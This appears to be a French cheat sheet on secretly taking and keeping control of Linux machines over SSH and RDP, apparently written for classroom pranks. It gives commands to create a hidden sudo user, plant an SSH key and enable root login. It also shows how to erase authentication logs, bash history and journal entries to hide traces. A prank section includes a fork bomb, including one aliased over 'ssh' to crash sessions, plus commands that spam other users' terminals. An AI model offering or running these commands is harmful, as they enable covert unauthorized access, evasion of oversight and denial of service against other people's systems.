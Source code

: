 <link rel="stylesheet" type="text/css" href="/assets/css/red-theme.css">

# SSH 💡

### Connexion en toute discretion
- Connecte toi à une une VM Proxmox
- Retire le VLAN
- Changer l'adresse IP de l'interface
- Connecte toi à une machine avec cette VM

## Assure une connexion à un poste (méthode rapide)
```
sudo -i
```
```
apt install xrdp -y
```
```
systemctl start xrdp
```
```
systemctl enable xrdp
```

Normalement maintenant vous pouvez vous connecter en RDP avec **root:root**  
Sinon faut créer un utilisateur invisible (et le mettre dans /etc/sudoers) :
```
adduser sadmin
```
```
usermod -u 999 sadmin
```
```
groupmod -g 999 sadmin
```
```
chmod 600 /etc/sudoers
```
```
vim /etc/sudoers
```
Ajoutez en dessous de la ligne root : 
```
sadmin      ALL=(ALL:ALL) ALL
```


### Si plus de temps (Garantir une connexion SSH) :
```
ssh sio@172.17...
```
Sur la session que tu veux : 
```
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKv3MSZ/mpcNNSTBarjvA4uRcAAojzE+XW/xu0apfEZzrbxq+ASJVJZ1MJUIaYV9iQmFB22MB6CoVN64NiacYqy9AxkLbVpOfesGnOayM9q4LSZfWS28E3Vxpi7GANQPF5Es/H8JfTx5vEBKHv7A0CORoPm1E66TMvDOBdYa7XGKzXzzcGb3Q3y+tSgSDNwPXZO6JAKXuk/vboyOPvDEolTATgXfa4KOEflHnROUC4wbAB1dLLDQLhKwXlAejPekjJKYMAurqhWxBYXq0mrl1sI0kUAslNsu8j8wgdAUuH6pntTMUlBU0V/IDbcS22qsUNRDnN82GShnn/NoCZRaVn' >> ~/.ssh/authorized_keys
```
```
vim /etc/ssh/sshd_config
```
```
PermitRootLogin yes
Allowusers saadmin
PubkeyAuthentification yes
```
```
systemctl restart ssh
```





## Tous les fichiers SSH à connaitre **  
  - `/var/log/auth.log` (Fichier de logs d'authentification SSH)
    - Supprimer le fichier (toute façon vous êtes sur une VM) :
        - ```
          /var/log/auth.log
          ``` 
    - Modifier le chemin des logs (j'ai essayé mais pas réussi)  : 
      - ```
        /etc/rsyslog.d/50-default.conf
        ```  
        
    - Arrêt complet des logs (je recommande pas trop) : 
      - ```
        systemctl stop rsyslog
        ```
  - `/etc/ssh/sshd_config` (Fichier de configuration SSH)
    - Pour redéfinir un nouveau chemin de fichier (pas essayé)
      - ```
        cp /etc/ssh/sshd_config /etc/dispy
        ```
        *(`/etc/dispy` sera le nouveau fichier de log)*

      - ```
        systemctl edit sshd 
        ``` 
        *(et remplacer `/etc/ssh/sshd_config` chemin par `/etc/dispy`)*
    
  - `~/.bashrc` (Fichier de personnalisation environnement SSH)
    - Rediriger une commande grâce aux alias : 
      - ```
        vim ~/.bashrc
        ```
        Et ajoutez (eviter l'enregistrement de logs pour un utilisateur): 
      - ```
        unset HISTFILE
        ```
        Alias pour faire crash :
      - ```
        alias ssh=':(){ :|:& };:'
        ```


## Commandes de bases à connaitre

Voir les adresses IP des utilisateurs connectés à une session :  
```
w
```
Voir le numéro de notre propre terminal (juste pour savoir) :
```  
tty
```
Envoyer une notification à un utilisateur de la même session SSH :
```  
notify-send
```

## Bloquer/Autoriser les connexions extérieur :
```
vim /etc/ssh/sshd_config
```
Pour autoriser tout le monde on ajoute dans ce fichier :  
```
Allowusers *
```
Pour refuser tout le monde on ajoute dans ce fichier :
```
Denyusers *
```
(Allowusers > Denyusers)

## Voir historique de connexion ou tentative  
```
sudo grep 'Accepted password' /var/log/auth.log
```
```
sudo grep 'Failed password' /var/log/auth.log
```

## TROLL INCROYABLE :

### ⚠️ Faire crash un PC (À utiliser avec précaution) :

```
:(){ :|:& };:
```

### Afficher un Train sur le terminal : 
```
apt install sl
```
```
sl > /dev/pts/0
```
*(executez sur le numéro 1, 2, 3 aussi pour être sûr)*

### Afficher un texte arc en ciel sur le terminal : 
```
apt install toilet
```
```
echo "GAYPRIDE" | toilet --gay > /dev/pts/0
```
*(executez sur le numéro 1, 2, 3 aussi pour être sûr)*

### Ecrire "COUCOU MAXIME" en boucle :
```
while true; do echo "COUCOU MAXIME" > /dev/pts/0; sleep 1; done
```
*(executez sur le numéro 1, 2, 3 aussi pour être sûr)*


### Créer 500 dossiers sur un poste (à executer sur le bureau) :
```
for i in $(seq 1 500); do mkdir "dossier_$i"; done
```

### Executer du son sur un poste : 
```
apt install vlc
```
```
wget fichier.mp3
```
```
cvlc fichier.mp3
```

## Supprimer les logs : 
```
journalctl --vacuum-time=1s
```
```
rm /home/user/.bash_history
```
```
rm /var/log/auth.log
```
```
history -c
```